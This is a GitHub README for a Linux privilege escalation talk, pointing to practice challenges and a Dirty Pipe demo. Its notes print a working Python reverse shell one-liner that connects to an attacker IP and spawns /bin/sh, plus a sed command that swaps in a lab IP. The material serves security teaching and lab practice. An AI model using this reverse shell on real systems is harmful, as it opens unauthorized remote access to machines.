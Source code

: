 # LinuxPrivilegeEscalation
My presentation at Cyber Community
<br>You can check the Cron-Tab challange to practice on it :)

# Update 
## 2022
<br>Updated Version Of The Presentation With Dirty Pipe Vuln Demo And More Resources
<br>You can check the index.php challange to practice on it :)
<br>All what you need to host the challange is a vulnerable linux server to dirty pipe LPE
## Notes:
### Used Conmands:
```bash
python3 --version
cat pythonrevshell.py | sed 's/10.0.0.1/192.168.246.138/'
```
### Content of pythonrevshell.py: [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)
```python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```